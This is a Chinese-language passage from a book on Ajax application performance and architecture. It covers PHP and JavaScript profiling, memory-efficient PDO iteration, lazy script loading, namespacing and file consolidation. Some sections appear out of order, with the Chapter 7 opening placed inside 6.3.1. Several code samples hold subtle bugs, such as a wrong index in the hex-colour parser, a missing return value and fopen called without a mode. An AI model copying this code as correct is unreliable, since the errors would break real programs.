0.19         User->__construct
0.19           Utilities::loadModel
0.19             Utilities::loadClass
0.19           Session->__construct
```

此处，`registrationController::createUser()` 调用使用 `Utilities::loadModel()` 工具来加载 `Session` 类。由于 `Utilities` 类会跟踪此信息，它只需返回 true，而不是执行本可以进行的开销较大的过滤和 `require_once` 调用。

#### 5.5.2 Xdebug

虽然 Xdebug 扩展提供了强大的调试工具，但本节重点介绍其性能分析功能。APD 默认使用其自己的跟踪文件格式，并提供了一个工具 `pprof2calltree` 来将该格式转换为 cachegrind 跟踪文件，而 Xdebug 2.0 仅以 cachegrind 跟踪文件格式提供性能分析信息。

> cachegrind 跟踪文件格式源自 Valgrind 套件（http://valgrind.org/）使用的格式，该套件包含一组用于调试和分析 Linux 程序的工具。名称“cachegrind”源于其模拟 CPU 缓存的能力，并报告有关缓存使用和未命中的详细信息。

有两种工具可以对 cachegrind 跟踪文件进行深入分析。第一种是 KCachegrind。第二种是更简单的 WinCacheGrind，它是 KCachegrind 的移植版本，专为使用 Xdebug 扩展的 Windows 用户编写。图 5.3 和 5.4 展示了每种工具在用户注册界面上显示 Xdebug 分析跟踪的情况。



**图 5.3** KCachegrind 对用户注册页面加载的分析。



**图 5.4** WinCacheGrind 对用户注册页面加载的分析。

要求使用 KCachegrind 或相应的 WinCacheGrind 移植版，使得非 Windows、非 KDE 用户没有图形用户界面来显示 cachegrind 跟踪文件的解析分析结果。幸运的是，`valgrind-calltree` 软件包还包含一个 Perl 脚本 `ct_annotate`，可在任何能运行 Perl 的平台上使用。虽然该脚本无法提供与 GUI 替代方案（它们也提供图表可视化）相同的丰富交互体验，但它提供了足够的灵活性来从 cachegrind 跟踪文件中获取所需信息：

```
$ ct_annotate -h
usage: ct_annotate [options] [data-file] [source-files]

options for the user, with defaults in [ ], are:
  -h --help           显示此消息
  -v --version        显示版本
  --show=A,B,C        仅显示事件 A,B,C 的数据 [all]
  --sort=A,B,C        按事件 A,B,C 对列排序 [事件列顺序]
  --threshold=<0--100> 我们感兴趣的主排序事件计数百分比 [99%]
  --auto=yes|no       注释包含有助于达到事件计数阈值的函数的所有源文件 [no]
  --context=N         在注释行前后打印 N 行上下文 [8]
  --inclusive=yes|no  将子程序成本添加到函数调用中 [no]
  --tree=none|caller| 打印每个函数的调用者、被调用函数或两者 [none]
      calling|both
  -I --include=<dir>  将 <dir> 添加到搜索源文件的目录列表中
```

由于该脚本引用了源代码文件本身，输出可以包含调用树信息，包括函数的调用者、相关调用中调用的函数，甚至可以指定源代码中的行数以在输出中提供时间和方法调用的上下文。以下 `ct_annotate` 调用仅包含默认输出，显示按进程中调用长度降序排序的调用时间：

```
$ ct_annotate --threshold=90 cachegrind.out.2269074765

----------------------------------------------------------------------
Profiled target:  /index.php
Events recorded:  Time Memory
Events shown:     Time Memory
Event sort order: Time Memory
Thresholds:       90 0
Include dirs:    
User annotated:  
Auto-annotation: off

----------------------------------------------------------------------
    Time  Memory
----------------------------------------------------------------------
336,589 411,016  PROGRAM TOTALS

----------------------------------------------------------------------
    Time  Memory  file:function
----------------------------------------------------------------------
125,607 213,760  /includes/Utilities.php:Utilities::loadClass []
 92,861 364,460  /index.php:{main} []
```


# 第 6 章



本章内容

- 6.1 通用实践 188
- 6.2 众多简洁的接口 194
- 6.3 密集、丰富的接口 201

虽然性能优化应等待主要功能开发完成后再进行，但可扩展性和可维护性则需要从应用程序设计之初就开始考虑。所实现的架构对可扩展性有直接影响，必须有足够的考量来确保应用程序在任何情况下都能保持稳健。

在应用程序开发者构建可扩展架构的同时，他们也可以运用相同的技术来提升可维护性。开发团队可以将代码的每个方面分离成逻辑清晰、易于加载的对象和库，然后应用程序可以根据需要加载或预加载这些组件。这种隔离促进了应用程序各对象之间的抽象化，使得在后续开发中追踪错误和添加功能变得更加容易。

### 6.1 通用实践

虽然应用程序的架构在很大程度上决定了其可扩展性，但一些通用的编码实践可以帮助防止应用程序的小部分在更高要求的情况下变得迟钝。如果开发者不在编码层面努力使应用程序具备可扩展性，那么不可扩展的功能将损害应用程序整体的架构可扩展性。用户只关心应用程序的整体体验，而不关心它在哪个环节失败。

尽管许多因素会影响应用程序的可扩展性，但处理器和内存的过度使用尤其困扰着 Web 应用程序。PHP 在 `php.ini` 中有一个 `memory_limit` 设置，默认值通常为 8MB。这看起来可能不多，但如果单个请求就使用了超过 8MB 内存，那么每秒持续不断的多个请求将会耗尽内存。如果在这个过程中性能开始下降，应用程序将会自行崩溃。

#### 6.1.1 处理器使用

正如第 5 章“性能优化”中的分析输出所示（尤其是 Xdebug 的示例），在一个函数中花费的时间量并不一定与在该函数中使用的内存量相关。还有几个其他因素可能导致函数变慢，包括磁盘访问、数据库延迟和其他外部引用。然而，有时函数只是在一个时间点上使用了太多的处理器周期。

当这种处理器消耗发生在应用程序的 JavaScript 中时，它可能会使浏览器冻结，因为大多数浏览器在单个线程中运行 JavaScript。因此，使用 DOM 方法获取对单个节点的引用，然后从那里深入 DOM 树进行查找，比使用自定义方法按属性（如特定类或 `nodeValue`）查找元素具有更好的可扩展性。

例如，一个应用程序可能有一个包含二十列和一千行的表格，每个单元格包含一个数字。由于这种显示以通用的形式为用户提供了大量信息，应用程序可能会提供一种突出显示包含超过给定阈值的值的单元格的方法。在这个例子中，函数将可以访问存储在名为 `threshold` 的变量中的这个最小值。这种单元格突出显示可以通过几种方式实现。

以下所示的第一种方法获取 `td` 元素的 `NodeSet`，然后一次性遍历整个列表。对于每个单元格，函数获取文本节点值并将其与阈值进行比较。如果值超过阈值，则为该单元格添加一个一像素的边框以突出显示：

```javascript
function bruteForce() {
  var table = document.getElementById("data");
  var tds = table.getElementsByTagName("td");
  for (var i = 0; i < tds.length; i++) {
    var td = tds.item(i);
    var data = td.firstChild.nodeValue;
    if (parseInt(data) > threshold) {
      td.style.border = "solid 1px #fff";
    }
  }
}
```

虽然这个函数确实有效（运行 20,000 个 `td` 元素并在一秒钟多一点的时间内完成所需的高亮显示），但在函数运行期间，浏览器完全停止响应。在那一秒钟内，Firefox 的处理器使用率飙升至大约 74%。

为了防止浏览器锁定，脚本可以通过将工作分成几个部分，并在最小超时后遍历每个部分来模拟线程。这种方法所需的时间几乎是 `bruteForce()` 函数的十倍，但下一个函数在应用高亮显示的同时，可以与用户可能想要执行的任何操作并行运行：

```javascript
function fakeThread() {
    var table = document.getElementById("data");
    var tds = table.getElementsByTagName("td");
    var i = 0;
    var section = 200;
    var doSection = function() {
        var last = i + section;
        for (; i < last && i < tds.length; i++) {
            var td = tds.item(i);
            var data = td.firstChild.nodeValue;
            if (parseInt(data) > threshold) {
                td.style.border = "solid 1px #fff";
            }
        }
        if (i < tds.length) {
            setTimeout(doSection, 10);
        }
    }
    doSection();
}
```

最快的方法是重新审视所需的功能，即用户可以在 `td` 元素包含的值超过阈值时启用高亮显示。如果服务器在值超过此阈值时为 `td` 元素添加一个类标记，那么它可以缓存这些结果，脚本随后只需为给定的类应用一个样式规则。下面的例子假设函数需要创建一个新的样式元素并将规则写入其中，不过如果样式表中已有规则，它也可以简单地编辑现有规则：

```javascript
function useClass() {
    var head = document.getElementsByTagName("head")[0];
    var style = head.appendChild(
        document.createElement("style")
    );
    style.type = "text/css";
    style.appendChild(
        document.createTextNode(
            ".high { border: solid 1px #fff; }"
        )
    );
}
```

通过重新思考那些需要消耗大量处理器周期的功能，开发者可以使应用程序能够处理巨大规模的数据和接口，而不影响性能。

#### 6.1.2 内存使用

与处理器使用类似，内存使用在问题区域会迅速增加，但可以采取某些措施来防止这种情况。某些类型的函数，特别是那些将整个数据集加载到返回值中的函数，除非开发者在使用时加以思考和规划，否则会使内存使用达到极限。

例如，许多 PHP 数据库扩展提供了将整个记录集检索到数组中，甚至只是将一列数据检索到数组中的方法。这些方法虽然有用且易于使用，但如果使用不当，会将内存使用推到崩溃点。以下代码使用 PDO 扩展获取用户 ID 和姓名列表到一个数组中：

```php
// First, run the query and get the list
$query = 'SELECT `id`, `name` FROM `users` ORDER BY `name`';
$stmt = $database->prepare($query);
$stmt->execute();
$users = $stmt->fetchAll(PDO::FETCH_ASSOC);

<!-- Later in the application, output the list -->
<ol>
<?php foreach ($users as $user) { ?>
    <li><a href="?id=<?php echo (int)$user['id']; ?>">
        <?php
        echo Utilities::escapeXMLEntities($user['name']);
        ?>
    </a></li>
<?php } ?>
</ol>
```

这个例子对于几十个甚至一百个用户来说运行得非常好。然而，一旦用户列表增长到数百、数千甚至数百万，`$users = $stmt->fetchAll(PDO::FETCH_ASSOC);` 这一行将触发内存不足错误，页面将完全无法渲染。为了绕过这个问题，而无需将数据库查询和方法调用直接放入模板中，代码可以使用一个简单的抽象层并实现标准 PHP 库的 `Iterator` 接口：


### 6.2 多样的简单接口

当一个应用程序需要许多不同的接口，每个接口提供一组不同的功能时，这些接口应该只加载必要部分的可用函数库。这种做法使得每个页面的加载保持轻量和快速，即使应用程序及其数据不断增长。一旦加载，每个页面可以根据需要加载额外的数据和功能；这些请求的返回将像初始页面加载本身一样轻量和快速。

#### 6.2.1 模块化

为了保持库足够灵活以支持提供各种功能的多个不同接口，该功能的每个部分都需要独立于其余部分而存在。这些部分可以从一组核心对象进行扩展，以便更容易地提供一致的对象接口，而无需重复代码。

本书中，类不断地扩展其他基类。这不仅将面向对象编程的优势带给了应用程序和代码示例，而且使得按需加载每组功能变得容易得多。例如，以下 JavaScript 类存在于 `effects.lib.js` 中，但扩展了 `EventDispatcher` 类：

```
/**
 * The base class of all Effects in the library
 */
function Effect() { }
Effect.prototype = new EventDispatcher;

/**
 * Kind of useless by itself, this class exists to get extended for
 * use with text, backgrounds, borders, etc.
 */
function ColorFade() { }
ColorFade.prototype = new Effect;
// Triggers at the start and end of the effect
ColorFade.prototype.events = {
    start : new Array(),
    end : new Array()
};
// Default to changing from a white background to a red one
ColorFade.prototype.start = 'ffffff';
ColorFade.prototype.end = 'ff0000';
// Default to a second, in milliseconds
ColorFade.prototype.duration = 1000;
ColorFade.prototype.step_length = 20;
// The current step (used when running)
ColorFade.prototype.step = 0;
// Reference to the interval (used when running)
ColorFade.prototype.interval = null;
// Calculated values used in color transformation
ColorFade.prototype.steps = 0;
ColorFade.prototype.from = null;
ColorFade.prototype.to = null;
ColorFade.prototype.differences = null;
ColorFade.prototype.current = null;
/**
 * Parse a three- or six-character hex string into an
 * array of hex values
 */
ColorFade.prototype.explodeColor = function(color) {
    // Three or six, nothing else
    if (color.length != 6 && color.length != 3) {
        throw 'Unexpected color string length of ' + color.length;
    }

    var colors = new Array();
    if (color.length == 3) {
        colors[0] = parseInt('0x' + color.charAt(0) + color.charAt(0));
        colors[1] = parseInt('0x' + color.charAt(1) + color.charAt(1));
        colors[2] = parseInt('0x' + color.charAt(2) + color.charAt(2));
    } else {
        colors[0] = parseInt('0x' + color.charAt(0) + color.charAt(1));
        colors[1] = parseInt('0x' + color.charAt(2) + color.charAt(3));
        colors[2] = parseInt('0x' + color.charAt(3) + color.charAt(5));
    }
    return colors;
}
/**
 * Executes the fade from the start to end color
 */
ColorFade.prototype.run = function() {
    this.from = this.explodeColor(this.start);
    this.to = this.explodeColor(this.end);
    this.differences = new Array(
        this.from[0] - this.to[0],
        this.from[1] - this.to[1],
        this.from[2] - this.to[2]
    );

    // Steps in portions
    this.steps = Math.round(this.duration / this.step_length);
    // Reset the step so that we can run it several times
    this.step = 0;

    clearInterval(this.interval);
    this.interval = setInterval(this.runStep, this.step_length, this);

    // Success!
    return true;
}
/**
 * Called from an Interval, runStep takes what this should resolve
 * to and references it
 */
ColorFade.prototype.runStep = function(dit) {
    dit.step++;
    var state = (dit.step / dit.steps);
    dit.current = new Array(
        dit.from[0] - Math.round(state * dit.differences[0]),
        dit.from[1] - Math.round(state * dit.differences[1]),
        dit.from[2] - Math.round(state * dit.differences[2])
    );
    if (dit.step == dit.steps) {
        clearInterval(dit.interval);
    }
}
```

`ColorFade` 类作为所有颜色渐变类的基础，提供了一致的接口。所有这些效果都存在于同一个库中，以便应用程序可以按需加载它们，而不是在加载时加载。这样，不需要这些功能的简单接口可以节省用户加载不必要库的时间。事实上，类定义也允许将一个特别密集的效果存在于一个单独的、可选加载的库中。这意味着接口将更有能力只加载该接口所需的功能，并且加载时间可以保持得更小。这种模块化对服务器端应用程序的影响与对客户端的影响一样大。从服务器应用程序的角度来看，应用程序对资源加载选择的控制力越强，加载的库就越精确，服务器返回响应的速度就越快。即使服务器端应用程序有数千条可以正确处理响应的路径，它仍然可以使用高效的查找。

192 第6章 可扩展、可维护的Ajax

class PDOIterator implements Iterator {
    /**
     * The PDO connection object
     */
    protected $database;
    protected $statement;
    /**
     * The query to run on the first iteration
     */
    protected $query;
    /**
     * Optional parameters to use for prepared statements
     */
    protected $parameters;
    /**
     * The current record in the results
     */
    protected $current;
    /**
     * The row number of the current record
     */
    protected $key;
    /**
     * A Boolean as to whether the object has more results
     */
    protected $valid;

    /**
     * Forward-only cursor assumed and enforced
     */
    public function rewind() {
        return false;
    }

    public function current() {
        if ($this->key === -1) {
            if (!$this->runQuery()) {
                $this->valid = false;
                return false;
            } else {
                $this->next();
            }
        }
        return $this->current;
    }

    public function key() {
        return $this->key;
    }

    public function next() {
        $this->current = $this->statement->fetch(PDO::FETCH_ASSOC);
        if ($this->current) {
            $this->key++;
            if (!$this->valid) {
                $this->valid = true;
            }
            return true;
        } else {
            $this->statement = null;
            $this->valid = false;
            return false;
        }
    }

    protected function runQuery() {
        $this->statement = $this->database->prepare($this->query);
        $this->statement->execute($this->parameters);
    }

    public function valid() {
        return $this->valid;
    }

    public function setParameters($params) {
        $this->parameters = $params;
    }

    public function __construct($database, $query) {
        $this->database = $database;
        $this->query = $query;
        $this->parameters = null;
        $this->current = null;
        $this->key = -1;
        $this->valid = true;
    }
}

与前面的示例相比，这个类似乎需要大量的工作，但它还没有取代前面的示例。`PDOIterator` 类仅仅是让应用程序能够轻松、干净地替换前面的示例，如下一个示例所示：

```
// First, run the query and get the list
$query = 'SELECT `id`, `name` FROM `users` ORDER BY `name`';
$users = new PDOIterator($database, $query);

<!-- Later in the application, output the list -->
<ol>
<?php foreach ($users as $user) { ?>
    <li><a href='?id=<?php echo (int)$user['id']; ?>'>
        <?php
        echo Utilities::escapeXMLEntities($user['name']);
        ?>
    </a></li>
<?php } ?>
</ol>
```

因为 `PDOIterator` 类实现了 `Iterator`，所以在模板中的用法与最初赋给 `$users` 变量的结果数组完全没有变化。然而，在这个例子中，`$users` 包含一个对 `PDOIterator` 实例的引用，并且查询实际上直到第一次迭代时才运行，这保持了数据库连接的干净并使用了极少的内存。一旦代码开始迭代结果，它立即将该条目渲染到标记中，之后不将任何结果保留在内存中。

任何获取完整列表、文件内容或其他未知大小资源然后返回它的函数都应该受到严格的审查。在某些情况下，这些便捷函数确实有意义。例如，如果一个配置文件永远不会超过五行或十行，使用 `file_get_contents` 会使获取文件内容的任务变得简单得多。然而，如果应用程序目前只有十几个用户偏好设置，它仍然无法知道它总是会有一个合理的列表来完整获取。


用于仅加载必要模块并快速返回的表格，无论应用程序提供多少功能。

在客户端，即使对于复杂应用程序，这种技术也能保持较低的内存使用率，因为应用程序在界面间切换时，会从内存中移除未使用的库，并加载应用程序下一步所需的类和函数。通过在初始页面加载后加载这些库，客户端应用程序甚至可以使整个页面的加载保持快速和响应式。它只需要合理管理额外库加载的时机，这样用户就不需要等待不合理的时长才能加载下一部分界面。

#### 6.2.2 延迟加载

一旦界面初始加载完成，它可以利用现有资源提供最常用的功能。这些功能应涵盖最典型的交互场景，但不应将用户限制在这一小部分功能内。通过根据需要加载额外功能，界面可以支持根据特定实例用户需求而定的轻量简单或复杂的应用程序，而不会拖慢页面本身的加载时间。

以下代码使应用程序能够通过两种方式延迟加载代码。它允许通过调用 `Utilities.include("ClassNameHere", callbackWhenIncluded)` 来包含已知类，该方法使用简单的查找来加载给定类对应的文件。它还允许通过调用 `Utilities.loadJavaScript("filename.js", callbackWhenLoaded)` 来包含任意文件，该方法可以加载内部或外部JavaScript文件。这两种方法都接受一个可选的回调参数，该参数在成功加载时接收一个值为true的布尔参数，或在由于超时或其他问题导致加载失败时接收一个值为false的参数：

```
/**
 * A list of available classes, as keys to their
 * corresponding source files. A script should
 * pre-generate this list rather than having it
 * hard-coded, so that it could always have the
 * latest classes and files.
 */
Utilities.classFiles = {
    "AjaxEvent" : "includes/ajax.lib.js",
    "AjaxRequest" : "includes/ajax.lib.js",
    "AjaxRequestManager" : "includes/ajax.lib.js",
    "BackgroundFade" : "includes/effects.lib.js",
    "ColorFade" : "includes/effects.lib.js",
    "Controller" : "includes/main.lib.js",
    "CustomEvent" : "includes/ajax.lib.js",
    "Effect" : "includes/effects.lib.js",
    "ElementEffectEvent" : "includes/effects.lib.js",
    "EventDispatcher" : "includes/ajax.lib.js",
    "FadeEvent" : "includes/effects.lib.js",
    "Field" : "includes/main.lib.js",
    "ForegroundFade" : "includes/effects.lib.js",
    "Messenger" : "includes/main.lib.js",
    "Model" : "includes/main.lib.js",
    "Throbber" : "includes/main.lib.js",
    "Utilities" : "includes/main.lib.js",
    "View" : "includes/main.lib.js"
};
```

```
/**
 * Late-loading of JavaScript files based on object to
 * file lookups. Once the file loads (or times out), it
 * triggers the callback (if specified), passing a Boolean
 * indicating whether it successfully loaded.
 */
Utilities.include = function(class, callback) {
    // First, if already loaded, just call the callback
    if (window[class]) {
        if (callback) {
            setTimeout(callback, 10, true);
        }
        return true;
    } else if (Utilities.classFiles[class]) {
        return Utilities.loadJavaScript(
            Utilities.classFiles[class],
            callback
        );
    } else {
        // Class not found, just return false
        return false;
    }
};
```

```
/**
 * Keep track of files already loaded
 */
Utilities.loadedJavaScript = {};
```

```
/**
 * Load the specified JavaScript file, optionally
 * calling a callback function and passing a Boolean
 * as to whether the file loaded
 */
Utilities.loadJavaScript = function(file, callback) {
    if (Utilities.loadedJavaScript[file]) {
        if (callback) {
            setTimeout(callback, 10, true);
        }
        return true;
    } else {
        var head = document.getElementsByTagName("head")[0];
        var script = head.appendChild(
            document.createElement("script")
        );
        // Set timeout of a very liberal 10 seconds
        var timeout = setTimeout(
            function() {
                head.removeChild(script);
                if (callback) {
                    callback(false);
                }
            },
            10000
        );
        script.addEventListener(
            "load",
            function() {
                clearTimeout(timeout);
                Utilities.loadedJavaScript[file] = true;
                callback(true);
            },
            false
        );
        script.type = "text/javascript";
        script.src = file;
        return true;
    }
};
```

该脚本通过向文档头部追加额外的script元素来加载额外的JavaScript文件。在设置元素的src属性之前，它添加了一个事件监听器来清除超时并触发加载事件。这确保了任何使用它加载额外文件的脚本都能知道它是否以及何时加载完成。

由于每个额外JavaScript文件的加载都是异步返回的，因此资源的延迟加载（这可以很容易地扩展到加载图像和样式表）需要足够早地进行，以防止用户在继续操作前需要等待。然后，该脚本可以使用类/文件加载器的可选回调功能，在需要使用文件时，判断所需资源是否已成功加载。

通过在初始加载的脚本和按需加载的脚本之间保持平衡，应用程序可以保持轻量且加载快速；这种做法将扩展其功能而不中断用户。

### 6.3 密集、丰富的界面

需要大量功能的界面无法通过模块化加载来扩展，特别是当它们与客户端应用程序一起使用时。即使在高带宽、低延迟的环境中，每个额外功能请求所需的时间也会使应用程序变得迟缓。每个触发尚未加载的功能库部分的用户操作，都将有效地需要对服务器进行同步调用，以直接响应新操作。

#### 6.3.1 单体应用程序

拥有单体应用程序并不禁止应用程序采用面向对象的设计，但它确实意味着应用程序一次性加载完成，最好只包含少数几个文件。因为浏览器一次只会从同一域名加载少数几个资源，所以一个需要几十个外部加载JavaScript文件（甚至还没考虑样式表和图像）的界面，即使在快速连接下，也需要荒谬的加载时间。

虽然模块化应用程序可以利用多个请求中多个文件的缓存，但基于Ajax的单体应用程序往往不会有多于一两次的初始页面加载。它们转而选择将大部分（如果不是全部）应用程序一次性加载到浏览器的内存中。通过这样做，即使是极其复杂的应用程序也能快速响应用户，并按需支持广泛的功能。

为了保持单体应用程序的可扩展性，开发人员需要制定命名约定，以降低命名冲突的风险。在JavaScript中，命名冲突可能导致问题，但不会明显地表明问题源于冲突。在以下示例中，同一应用程序的两个不同部分需要定义自己的 `Player` 类。第一个类将 `Player` 定义为运行幻灯片的类，而第二个类将其定义为应用程序的用户：

```
function Player(slides) {
    this.slides = slides;
}
Player.prototype = {
    slides : [],
    current : -1,
    next : function() {
        if (this.slides[this.current + 1]) {
            if (this.current > -1) {
                this.slides[this.current].style.display = "none";
            }
            this.slides[++this.current].style.display = "block";
            return true;
        } else {
            return false;
        }
    }
};

function Player() { }
Player.prototype = {
    alias : "",
    level : 1,
    login : function(login, password) {
        var req = request_manager.createAjaxRequest();
        req.post.login = login;
        req.post.password = password;
        req.addEventListener(
            "load",
            [Player.prototype.loggedIn, this]
        );
        req.open("POST", "login.php");
        req.send();
    },
    loggedIn : function(e) {
        var response = e.request.responseXML;
        if (user = response.getElementsByTagName("user")[0]) {
            var alias_node = user.getElementsByTagName("alias");
            this.alias = alias_node.firstChild.nodeValue;
            var level_node = user.getElementsByTagName("level");
            this.level = level_node.firstChild.nodeValue;
        }
    }
};
```


# 第7章


## 本章内容

- 7.1 为多接口设计应用程序 208
- 7.2 模型-视图-控制器设计模式 212
- 7.3 在模板引擎中使用工厂模式 237

富Web应用程序开发往往侧重于客户端开发，这是合理的，因为近年来Web技术的大部分进展都围绕着JavaScript的`XMLHttpRequest`对象。然而，服务端应用程序开发仍然值得至少与Ajax驱动应用程序出现前同等程度的关注，因为它现在不仅要继续支持整页加载，还要在后台精确定位查询以更新或检索信息。

这类应用程序需要足够灵活的架构，以便将加载的数据、对象和操作限制在仅当前请求所需的内容。当应用程序需要为每种请求类型提供相同级别的授权检查和功能，而不考虑支持应用程序的加载量时，这可能会带来挑战。

## 7.1 为多接口设计应用程序

Ajax驱动的应用程序需要支持通过至少两种响应格式访问数据和功能：XHTML和XML或JSON。这一要求意味着需要能够将相同的数据或调用结果输出到两套不同的模板，这意味着需要一个灵活的模板系统。这同样要求应用程序整体上具有足够灵活的架构，以确保它不会为给定的请求执行不必要的工作。

一个应用程序不应该为了返回一个简单的列表给`XMLHttpRequest`调用，而去费心获取页面的元数据、导航结构或围绕允许的界面控件的权限。然而，它确实需要一些底层结构来提供应用程序的骨架，并处理配置加载、数据库连接、缓存管理、消息传递、身份验证、授权和资源加载等事务。

将逻辑在应用程序中尽可能抽象化，可以更容易地在应用程序中动态加载和重用功能。这也使得处理应用程序代码变得容易得多，因为函数和方法的定义更加简洁。未能抽象化逻辑会导致维护困难。

---

虽然PHP在尝试定义现有类时会抛出致命错误，JavaScript则会悄悄地允许发生，覆盖任何现有的变量和方法，并在修改原型时改变现有实例的行为。幸运的是，JavaScript基于原型的对象模型使得实现类似命名空间的东西变得容易。通过将每个类定义封装在另一个对象中，这个对象可以容纳一组功能中所有内容的类定义，这些类可以几乎不受先前定义的影响地存在：

```javascript
var Slideshow = {
    Player : function(slides) {
        this.slides = slides;
    }
}
Slideshow.Player.prototype = {
    slides : [],
    current : -1,
    next : function() {
        if (this.slides[this.current + 1]) {
            if (this.current > -1) {
                this.slides[this.current].style.display = "none";
            }
            this.slides[++this.current].style.display = "block";
            return true;
        } else {
            return false;
        }
    }
};
```

```javascript
var Game = {
    Player : function() { }
}
Game.Player.prototype = {
    alias : "",
    level : 1,
    login : function(login, password) {
        var req = request_manager.createAjaxRequest();
        req.post.login = login;
        req.post.password = password;
        req.addEventListener(
            "load",
            [Player.prototype.loggedIn, this]
        );
        req.open("POST", "login.php");
        req.send();
    },
    loggedIn : function(e) {
        var response = e.request.responseXML;
        if (user = response.getElementsByTagName("user")[0]) {
            var alias_node = user.getElementsByTagName("alias");
            this.alias = alias_node.firstChild.nodeValue;
            var level_node = user.getElementsByTagName("level");
            this.level = level_node.firstChild.nodeValue;
        }
    }
};
```

现在，使用每个类的代码都可以引用其中一个（毫无疑问它使用的是哪个类），通过调用`new Slideshow.Player()`来实例化一个新的将显示幻灯片的`Player`。要实例化代表用户的新`Player`，代码可以调用`new Game.Player()`。通过使用像这样的技术来模拟命名空间，多个开发人员可以在大型、单体应用程序上工作，而不用担心类或函数名冲突；这种做法使得这类应用程序更容易维护（参见附录B，“OpenAjax”）。

#### 6.3.2 预加载

一个仅加载六个JavaScript文件、总共40k字节的接口，在局域网连接上平均加载时间为150毫秒。这个实例时间不长，但这种设置无法扩展。随着应用程序加载更多文件，加载时间呈线性增长，文件数量加倍，时间也加倍。然而，随机的网络波动可能导致更高频率的带宽和延迟问题干扰加载过程，导致偶尔加载单个文件需要一两秒。

即使应用程序的功能存在于不同的JavaScript文件中，它仍然可以通过使用服务端应用程序来合并文件，从而利用更少文件带来的更快加载时间。这使得客户端应用程序保持可维护性，同时不影响浏览器为特定接口加载必要脚本的方式；这种做法支持了模块化应用程序开发下的单体应用程序加载场景。

为了绕过这个问题，应用程序可以将文件合并成一个文件，只需要一次请求就能获得多个文件的功能。以下示例接受两个参数，并实现合并第一个参数中指定的文件列表，将结果保存到第二个参数指定的路径中。这个静态方法存在于应用程序的一个通用的、全局可访问的`utilities`类中：

```php
/**
 * Consolidates files into a single file as a cache
 */
public static function consolidate($files, $cache) {
    $lastupdated = file_exists($cache) ? filemtime($cache) : 0;
    $generate = false;
    foreach ($files as $file) {
        // Just stop of missing a source file
        if (!file_exists($file)) {
            return false;
        }
        if ($u = filemtime($file) > $lastupdated) {
            $generate = true;
            break;
        }
    }
    // Files changed since the last cache modification
    if ($generate) {
        $temp = tempnam('/tmp', 'cache');
        $temph = fopen($temp, 'w');
        // Now write each of the files to it
        foreach ($files as $file) {
            $fileh = fopen($file);
            while (!feof($fileh)) {
                fwrite($temph, fgets($fileh));
            }
            fclose($fileh);
        }
        fclose($temph);
        rename($temp, $cache);
    }
    return true;
}
```

在首次加载时使用这个脚本处理相同的六个文件，完整脚本在首次命中时加载时间为45毫秒，此后平均约为35毫秒。在首次加载时使用这个脚本处理全部十二个文件，完整脚本在首次命中时加载时间为80毫秒，此后平均约为50毫秒。

此方法可以内置其他功能，以使页面加载更快，尤其是对于相当大的应用程序。一旦它将文件合并成一个缓存的文件，它随后可以通过运行`copy('compress.zlib://' . $temp, $cache . '.gz')`来创建一个次要的、gzip压缩的文件，以便浏览器可以加载一个更小的文件。它甚至可以通过一个工具运行脚本，在gzip压缩之前通过删除注释和空白以及压缩脚本内容来精简脚本本身。

通过使用这些方法，即使是富、全功能界面所需的数兆字节脚本也能快速加载。广阔的功能将为应用程序增添更多内容，而不会拖累其性能并变得难以管理。


